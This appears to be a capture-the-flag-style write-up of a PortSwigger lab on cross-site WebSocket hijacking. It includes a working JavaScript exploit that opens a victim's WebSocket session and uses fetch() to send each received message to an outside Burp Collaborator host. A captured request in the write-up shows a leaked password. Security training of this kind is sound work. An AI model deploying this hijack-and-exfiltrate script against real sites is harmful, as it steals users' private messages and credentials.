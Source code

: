 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/550853ed-24d9-4326-b1c8-c0b87710211c)

## Overview :

Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

> NOTE - The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

_An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server._

## Solution :

Clicking on **Live Chat**, loads the chat page.

The following is the websocket connection request -

```http
GET /chat HTTP/1.1
Host: 0a5a007204c9f57381fbe986006e0077.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 13
Origin: https://0a5a007204c9f57381fbe986006e0077.web-security-academy.net
Sec-WebSocket-Key: rHRYnTnQlSN0/MayNfD9gQ==
Connection: keep-alive, Upgrade
Cookie: session=tcnP10xowGofDir0BMeIf0fn8ll8JpEW
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```
Note that it doesn't have any protection against CSRF attacks & the application sends the token in *session cookie* itself.

So an attacker can craft a malicious page that performs a CSRF attack & the session cookie will be added automaticaly when the user clicks on the link to the malicious webpage hosted by the attacker.

Go to the exploit server & paste the following script.

```js
<script>
    var ws = new WebSocket('wss://0a5a007204c9f57381fbe986006e0077.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://hf04fu8orrbtcrephnwuv82j9af13srh.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Store & deliver exploit to victim.

Now in our burp-colaborator, we can see some HTTP & DNS interactions.

One of the requests in the HTTP interaction has the password of the user

```http
POST / HTTP/1.1
Host: hf04fu8orrbtcrephnwuv82j9af13srh.oastify.com
Connection: keep-alive
Content-Length: 82
sec-ch-ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://exploit-0adc00a104d1f53381d2e86201320021.exploit-server.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://exploit-0adc00a104d1f53381d2e86201320021.exploit-server.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

{
"user":"Hal Pline",
"content":"No problem carlos, it's e0efqkw9c60qhoi97guu"
}
```

Now login as carlos using the credentials `e0efqkw9c60qhoi97guu` to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/342a85bf-f506-439c-939a-b04afe2db0af)
